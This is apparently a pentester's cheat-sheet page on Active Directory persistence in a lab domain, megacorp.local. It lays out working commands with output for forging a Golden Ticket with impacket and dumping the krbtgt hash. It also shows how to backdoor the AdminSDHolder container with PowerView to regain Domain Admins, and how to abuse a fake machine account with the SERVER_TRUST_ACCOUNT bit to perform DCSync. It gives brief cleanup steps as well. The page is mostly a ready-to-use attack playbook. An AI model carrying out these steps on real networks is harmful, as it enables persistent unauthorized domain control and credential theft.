 # Persistence

## Golden Ticket

### impacket

```text
$ ticketer.py -nthash 00ff00ff00ff00ff00ff00ff00ff00ff -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -domain megacorp.local snovvcrash
$ export KRB5CCNAME=`pwd`/snovvcrash.ccache
$ psexec.py megacorp.local/snovvcrash@DC01.megacorp.local -k -no-pass
$ secretsdump.py megacorp.local/snovvcrash@DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

## AdminSDHolder Modification

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
* [https://attack.stealthbits.com/adminsdholder-modification-ad-persistence](https://attack.stealthbits.com/adminsdholder-modification-ad-persistence)

### Create a Backdoor

Add a new domain user or grant an existent user `GenericAll` permissions for the `AdminSDHolder` container:

```text
PowerView3 > Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -TargetDomain megacorp.local -PrincipalIdentity snovvcrash -PrincipalDomain megacorp.local -Rights All -Verbose
```

Check that granting `AdminSDHolder` permissions was successfull \(may take 60+ minutes for the security ACLs to get updated for that user\):

```text
PowerView3 > Get-DomainUser snovvcrash | select objectsid
S-1-5-21-2284550090-1208917427-1204316795-9824

PowerView3 > Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=AdminSDHolder,CN=System,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             :
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2284550090-1208917427-1204316795-9824
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

Now you can add yourself \(the "snovvcrash" user\) to the Domain Admins group any time and do stuff \(actually adding the user to Domain Admins every time is not necessary, as the `AdminCount` attribute will stay `1` anyways after adding the backdoor user to a protected group for the first time\):

```text
PowerView3 > Add-DomainGroupMember -Identity "Domain Admins" -Members snovvcrash
PowerView3 > Get-DomainObjectAcl -Identity "Domain Admins" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=Domain Admins,CN=Users,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2284550090-1208917427-1204316795-512
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2284550090-1208917427-1204316795-9824
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

PowerView3 > Remove-DomainGroupMember -Identity "Domain Admins" -Members snovvcrash
PowerView3 > Get-DomainUser snovvcrash | select admincount

admincount
----------
         1
```

### Remove the Backdoor

* [https://www.reddefenseglobal.com/blog/microsoft-domain-attack-techniques/admincount/](https://www.reddefenseglobal.com/blog/microsoft-domain-attack-techniques/admincount/)
* [https://www.ucunleashed.com/1621](https://www.ucunleashed.com/1621)

Disable or remove the account \(if a new user was created\):

```text
PS > net user snovvcrash /domain /active:no
PS > net user snovvcrash /domain /del
```

Remove user AdminSDHolder container via GUI \(ADUC, dsa.msc\).

Clear the `AdminCount` attribute \(will be resetted if the user is still in the `AdminSDHolder` container\):

```text
PowerView3 > Set-DomainObject -Identity snovvcrash -Domain megacorp.local -Clear admincount -Verbose
Or
PS > Get-ADUser snovvcrash | Set-ADObject -Clear admincount
```

Fix the inheritance rules:

```text
PS > [bool]$isProtected = $false
PS > [bool]$PreserveInheritance = $true
PS > [string]$dn = (Get-ADUser snovvcrash).DistinguishedName
PS > $user = [ADSI]"LDAP://$dn"
PS > $acl = $user.objectSecurity
PS > $acl.AreAccessRulesProtected
True  # procced if True
PS > $acl.SetAccessRuleProtection($isProtected, $PreserveInheritance)
PS > $inherited = $acl.AreAccessRulesProtected
PS > $user.commitchanges()
PS > $acl.AreAccessRulesProtected
False
```

## SERVER\_TRUST\_ACCOUNT

* [https://stealthbits.com/blog/server-untrust-account/](https://stealthbits.com/blog/server-untrust-account/)

When DA is owned \(or any other account with `DS-Install-Replica` permission\), you can create a fake machine account \(or use an existing real machine account\), set `SERVER_TRUST_ACCOUNT` bit for it and perform DCSync on behalf of this account to regain domain dominance.

1. Create a fake machine account:

```text
Powermad > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PowerView3 > Get-DomainComputer fakemachine | select name,primarygroupid,useraccountcontrol

name        primarygroupid        useraccountcontrol
----        --------------        ------------------
fakemachine            515 WORKSTATION_TRUST_ACCOUNT
```

2. Set the `SERVER_TRUST_ACCOUNT` bit:

```text
PowerView3 > Set-DomainObject fakemachine -Set @{useraccountcontrol=8192}
PowerView3 > Get-DomainComputer fakemachine | select name,primarygroupid,useraccountcontrol

name        primarygroupid   useraccountcontrol
----        --------------   ------------------
fakemachine            516 SERVER_TRUST_ACCOUNT
```

3. Perform DCSync:

```text
$ secretsdump.py MEGACORP/'fakemachine$:Passw0rd!'@DC01.megacorp.local -dc-ip 192.168.2.11 -just-dc-user 'MEGACORP\krbtgt'
```

4. Cleanup:

```text
PowerView3 > Set-DomainObject fakemachine -Set @{useraccountcontrol=4096}
Or
Powermad > Remove-MachineAccount -MachineAccount fakemachine
```

